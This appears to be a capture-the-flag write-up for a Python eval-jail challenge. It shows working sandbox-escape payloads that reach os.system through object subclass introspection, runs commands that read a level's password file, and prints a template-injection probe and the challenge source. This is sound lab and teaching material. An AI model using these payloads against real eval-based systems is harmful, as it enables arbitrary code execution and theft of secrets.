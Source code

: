 
We could see no POpen or subprocess, so looking for diffent methods, I found os.wrap_close, so let's use it to execute code:


```python
# Using os.wrap_close
# Level 1 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("ls -la")

# Output
total 16
drwxrwx--T 2 server p1     4096 Mar 11 10:37 .
drwxrwxr-x 6 server server 4096 Mar 11 08:33 ..
-rw-rw-r-- 1 p1     p1       20 Mar 11 10:37 password.txt
-rw-r----- 1 server p1      326 Mar 11 08:33 problem.py
Result: 0.  The correct answer was 1854762157.


# Level 1 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("cat password.txt")

# Output
Krdi9yQuY8mHoteZDCF5 Result: 0.  The correct answer was 3977916067.

```

Great we have the password, let's go to the next level.

Krdi9yQuY8mHoteZDCF5


### Level 2

```python
# Level 2 input
\{\{7*7\}\}

# Output
Traceback (most recent call last):
  File "problem.py", line 8, in <module>
    result = eval(answer, {})
  File "<string>", line 1, in <module>
TypeError: unhashable type: 'set'


# Level 2 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("ls -la")

# Output
total 20
drwxrwx--T 2 server p2     4096 Mar 11 10:42 .
drwxrwxr-x 6 server server 4096 Mar 11 08:33 ..
-rw-r----- 1 server p2      352 Mar 11 08:33 problem.py


# Level 2 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("cat problem.py")

# Output
import random, os
password = open("password.txt").read()
os.remove("password.txt") # No more reading the file!

solution = random.getrandbits(32)

answer = input()
```